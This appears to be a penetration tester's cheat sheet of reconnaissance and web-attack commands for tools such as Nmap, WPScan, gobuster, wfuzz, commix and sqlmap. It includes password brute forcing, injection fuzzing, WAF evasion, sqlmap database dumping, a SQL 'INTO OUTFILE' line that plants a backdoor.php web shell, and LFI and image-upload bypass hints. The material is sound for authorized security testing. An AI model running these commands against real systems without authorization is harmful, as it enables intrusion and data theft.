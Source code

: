 ================================================================================

===Nmap====
nmap -p- -sT -sV -A $IP
nmap -p- -sC -sV $IP --open
nmap -p- --script=vuln $IP

###HTTP-Methods
nmap --script http-methods --script-args http-methods.url-path='/website' 

###  --script smb-enum-shares
sed IPs:
grep -oE '((1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.){3}(1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])' FILE

================================================================================

===WPScan & SSL
wpscan --url $URL --disable-tls-checks --enumerate p --enumerate t --enumerate u

===WPScan Brute Forceing:
wpscan --url $URL --disable-tls-checks -U users -P /usr/share/wordlists/rockyou.txt

===Aggressive Plugin Detection:
wpscan --url $URL --enumerate p --plugins-detection aggressive

================================================================================

===Nikto with SSL and Evasion
nikto --host $IP -ssl -evasion 1
SEE EVASION MODALITIES.

================================================================================

===dns_recon
dnsrecon –d yourdomain.com

================================================================================

===gobuster directory
gobuster dir -u $URL -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -k -t 30

===gobuster files
gobuster dir -u $URL -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -k -t 30

===gobuster for SubDomain brute forcing:
gobuster dns -d domain.org -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 30
"just make sure any DNS name you find resolves to an in-scope address before you test it"

================================================================================

===Extract IPs from a text file.
grep -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}' nmapfile.txt

================================================================================

===Wfuzz XSS Fuzzing============================================================
wfuzz -c -z file,/opt/SecLists/Fuzzing/XSS/XSS-BruteLogic.txt "$URL"
wfuzz -c -z file,/opt/SecLists/Fuzzing/XSS/XSS-Jhaddix.txt "$URL"

===COMMAND INJECTION WITH POST DATA
wfuzz -c -z file,/opt/SecLists/Fuzzing/command-injection-commix.txt -d "doi=FUZZ" "$URL"

===Test for Paramter Existence!
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt "$URL"

===AUTHENTICATED FUZZING DIRECTORIES:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt --hc 404 -d "SESSIONID=value" "$URL"

===AUTHENTICATED FILE FUZZING:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-medium-files.txt --hc 404 -d "SESSIONID=value" "$URL"

===FUZZ Directories:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "$URL"

===FUZZ FILES:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"
|
LARGE WORDS:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-words.txt --hc 404 "$URL"
|
USERS:
wfuzz -c -z file,/opt/SecLists/Usernames/top-usernames-shortlist.txt --hc 404,403 "$URL"


================================================================================

===Command Injection with commix, ssl, waf, random agent.
commix --url="https://supermegaleetultradomain.com?parameter=" --level=3 --force-ssl --skip-waf --random-agent

================================================================================

===SQLMap
sqlmap -u $URL --threads=2 --time-sec=10 --level=2 --risk=2 --technique=T --force-ssl
sqlmap -u $URL --threads=2 --time-sec=10 --level=4 --risk=3 --dump
/SecLists/Fuzzing/alphanum-case.txt

================================================================================

===Social Recon
theharvester -d domain.org -l 500 -b google

================================================================================

===Nmap HTTP-methods
nmap -p80,443 --script=http-methods  --script-args http-methods.url-path='/directory/goes/here'

================================================================================

===SMTP USER ENUM
smtp-user-enum -M VRFY -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M EXPN -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M RCPT -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M EXPN -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $IP

================================================================================

===Command Execution Verification - [Ping check]
tcpdump -i any -c5 icmp
====
#Check Network
netdiscover /r 0.0.0.0/24
====
#INTO OUTFILE D00R
SELECT “” into outfile “/var/www/WEROOT/backdoor.php”;
====
LFI?
#PHP Filter Checks.
php://filter/convert.base64-encode/resource=
====
UPLOAD IMAGE?
GIF89a1
